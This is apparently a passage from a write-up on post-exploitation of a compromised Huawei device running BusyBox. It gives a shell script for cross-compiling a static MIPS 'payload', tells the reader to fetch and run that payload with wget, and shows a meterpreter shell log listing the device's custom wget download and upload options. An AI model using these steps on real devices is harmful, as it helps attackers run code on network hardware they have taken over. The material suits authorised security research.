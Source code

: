 ## Post-exploitation

### MIPS toolchain

Beside a basic meterpreter shell, you can compile your own C programs and
run them on the device! Download the [Sourcery CodeBench Lite](https://sourcery.mentor.com/GNUToolchain/package13838/public/mips-linux-gnu/mips-2016.05-8-mips-linux-gnu-i686-pc-linux-gnu.tar.bz2)
MIPS toolchain then compile your programs in the following manner:


```
#!/bin/bash

TOOLCHAIN_ROOT=mips-2016.05
CROSS_COMPILE=$TOOLCHAIN_ROOT/bin/mips-linux-gnu-

${CROSS_COMPILE}gcc                                                     \
                --sysroot=${TOOLCHAIN_ROOT}/mips-linux-gnu/libc/uclibc/ \
                -Wl,-dynamic-linker,/lib/ld-uClibc.so.0                 \
                -static                                                 \
                program.c

${CROSS_COMPILE}strip -s a.out -o payload
```

Then call `wget` to download and run the generated `payload` above. Be careful
of the device's own wget call conventions below.

### A special wget command

Huawei crafted their own `wget` implementation inside the shipped version of
busybox. It has the following syntax:


```
meterpreter > shell
Process 17951 created.
Channel 1 created.
wget -h
wget: invalid option -- h
BusyBox vv1.9.1 (2012-10-16 22:24:47 CST) multi-call binary

Usage: wget [OPTION]... HOST

wget download and upload a file via HTTP

Options:
	-g    Download
	-s    Upload
	-v    Verbose
	-u    Username to be used
	-p    Password to be used
	-l    Local file path
	-r    Remote file path
	-P    Port to be used, optional
	-B    Bind local ip, optional
	-A    Remote resolved ip, optional
	-b    Transfer start position
	-e    Transfer length
	-m    Max transfer size
	-c    Compress downloaded file
```

